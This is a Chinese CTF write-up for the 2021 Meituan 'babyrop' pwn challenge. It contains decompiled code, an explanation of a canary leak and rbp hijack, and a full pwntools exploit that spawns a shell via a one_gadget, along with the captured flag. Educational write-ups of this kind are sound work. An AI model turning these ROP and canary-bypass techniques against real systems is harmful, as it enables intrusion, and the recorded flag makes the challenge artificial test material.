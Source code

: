 # 第四届2021美团网络安全高校挑战赛 2021 pwn **babyrop**

> challenge name: `babyrop`
>
> file: `babyrop`, `libc-2.27.so`
>
> writeup writer: hexhex16@outlook.com    https://github.com/hex-16
>
> thanks liwl yuxc

也许可以归类为ret2text，因为核心操作是覆盖canary后，控制rbp的值和返回地址，使得跳到一个依据rbp值来输出字符串的地方，从而泄露libc。然后会再次执行到vuln时，返回到one gadget.

1. main输入name时溢出1B，泄露canary
2. vuln中控制rbp，返回到main中依据rbp调用`printf("%s", name)`处，泄露libc
3. 再次进入vuln，return to one gadget

题目给了libc，则一开始就可以猜测会用one gadget。

解法很简单，但是发现仅通过rbp就可以泄露libc的汇编位置比较困难，适合作为一道拓宽思考方向的简单ROP题。



# IDA Analysis

函数名保留了，可以直接看到有个vuln函数，这里明显存在一个栈溢出，但是栈溢出只能刚好覆盖完canary, rbp, ReturnAddress

```c
unsigned __int64 vuln()
{
  char buf[24]; // [rsp+0h] [rbp-20h] BYREF
  unsigned __int64 v2; // [rsp+18h] [rbp-8h]
  v2 = __readfsqword(0x28u);
  read(0, buf, 0x30uLL);                        // stack overflow
  return __readfsqword(0x28u) ^ v2;
}
```

vuln的栈空间，从高地址往低地址：

```assembly
return address # buf最多可以覆盖到返回地址RA这
rbp
canary     # 如果想要覆盖后面的rbp，RA，需要覆盖正确的canary，否则 call ___stack_chk_fail 
buf[0x18]  # 用户可以输入的地方，低地址
```

main函数中有个24B的buffer用于存储用户输入的name，但是在输入时实际可以输入25B，刚好会把canary最低的1B(`0x00`)给覆盖掉，后续在`printf("... %s, ...", name)`的时候就会把canary输出出来，故可以在此泄露canary。后面输入的整数如果与`"password"`字符串的地址相等则会调用`vuln`

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int i; // [rsp+0h] [rbp-30h]
  char *password_addr; // [rsp+8h] [rbp-28h] BYREF
  char name[24]; // [rsp+10h] [rbp-20h] BYREF
  unsigned __int64 v7; // [rsp+28h] [rbp-8h]

  v7 = __readfsqword(0x28u);
  setvbuf(stdin, 0LL, 2, 0LL);
  setvbuf(_bss_start, 0LL, 2, 0LL);
  puts("What your name? ");
  for ( i = 0; i <= 24; ++i )                   // 多输入1B 可以泄露canary
  {
    if ( (unsigned int)read(0, &name[i], 1uLL) != 1 || name[i] == '\n' )
    {
      name[i] = 0;
      break;
    }
  }
  printf("Hello, %s, welcome to this challenge!\n", name); // 利用这一句来泄露libc
  puts("Please input the passwd to unlock this challenge");
  __isoc99_scanf("%lld", &password_addr);
  if ( password_addr == "password" )            // bss addr
  {
    puts("OK!\nNow, you can input your message");
    vuln();
    puts("we will reply soon");
  }
  return 0;
}
```

> 一次程序运行中，所有的canary的值相同。



# How to Exp

栈溢出的空间非常有限，仅仅能控制canary，rbp，return addr。main中输出name的汇编如下，可以看到这里会使用rbp来确定`%s`输出的地址，故几乎可以输出任何地址上的内容（以%s的形式）

```assembly
.text:0000000000400818        lea     rax, [rbp+name] ; name = byte ptr -20h
.text:000000000040081C        mov     rsi, rax
.text:000000000040081F        lea     rdi, format   ; "Hello, %s, welcome to this challenge!\n"
.text:0000000000400826        mov     eax, 0
.text:000000000040082B        call    _printf
```

输出完之后会再次执行`vuln`，覆盖RA为one gadget即可getshell



# Exploit

```python
from pwn import *
context.arch = 'amd64'
context.log_level = "debug"
IP = "123.57.131.167"
PORT = 22636
DEBUG = 1
elf = ELF("./babyrop")

if DEBUG:
    p = process("./babyrop")  # , env={"LD_PRELOAD": "./libc-2.27.so"}
    # p = process("./babyrop")
    libc = ELF("./libc-2.27.so")
    # attention: argv[1] for ./pwn when running with ./ld.so ./pwn
    base = p.libs()[p._cwd + p.argv[0].decode().strip('.')]  # fix bytes str error in py3.9
    print("base:", base, p.libs())

else:  # flag{c53a3433-c33d-4577-a6ee-37d0d69fc310}
    p = remote(IP, PORT)
    libc = ELF("./libc-2.27.so")


def ru(x): return p.recvuntil(x)
def se(x): return p.send(x)
def rl(): return p.recvline()
def sl(x): return p.sendline(x)
def rv(x): return p.recv(x)
def sa(a, b): return p.sendafter(a, b)
def sla(a, b): return p.sendlineafter(a, b)
def l64(): return u64(p.recvuntil("\x7f")[-6:].ljust(8, b"\x00"))  # python 3.9 pass


def debug(cmd=""):
    gdb.attach(p, cmd)


def dd():
    if DEBUG:
        cmd = ""
        cmd += "b *%d\n" % (0x400744)  # 4007C8
        cmd += "b *%d\n" % (0x40082B)
        cmd += "b *%d\n" % (0x40084F)
        cmd += "set $a=%d\n" % (0x601010)  # arrPtr
        debug(cmd)


# === Step-1: stack overflow 1B, leak canary
name = "myname".ljust(25, "0")
sa("name? \n", name)
data = ru(name)
canary = u64(b"\x00" + ru(",")[:7])
print("==> ", hex(canary))
sla("unlock this challenge\n", "4196782")  # input password addr
# 0x601020 : addr of stdin in bss    # .bss:601020 stdin@@GLIBC_2_2_5

# === Step-2: hijack rbp, return addr
print("stdin:", hex(libc.sym['_IO_2_1_stdin_']))  # end with 0x00
payload = b'a'.ljust(0x18, b'a') + p64(canary) + p64(0x601020 + 0x20 + 1) + p64(0x400818)  #
sa("you can input your message\n", payload)

leak_addr = u64((b"\x00" + p.recvuntil("\x7f")[-5:]).ljust(8, b"\x00"))
libc.address = leak_addr - libc.sym['_IO_2_1_stdin_']
print("==> leak_addr", hex(leak_addr), "stdin:", hex(libc.sym['_IO_2_1_stdin_']))
print("==> libc.address", hex(libc.address))

sla("unlock this challenge\n", "4196782")  # input password addr

# === Step-3: return to one gadget
one_gadget = libc.address + 0x4f3d5
payload = b'a'.ljust(0x18, b'a') + p64(canary) + p64(0xdeadbeef) + p64(one_gadget)
sa("you can input your message\n", payload)
dd()
p.interactive()

```

payload解释：

```python
payload = b'a'.ljust(0x18, b'a') + p64(canary) + p64(0x601020 + 0x20 + 1) + p64(0x400818)
```

- 0x601020: bss上stdin的地址
- 0x20: `.text:0000000000400818` 上是用`rbp-0x20`的方式获得，为了最后得到的是stdin的地址，需要提前+0x20
- 1: 由于这个libc的`_IO_2_1_stdin_`最低1B刚好是0x00，输出时会被截断，所以+1，跳过最低1B的0x00

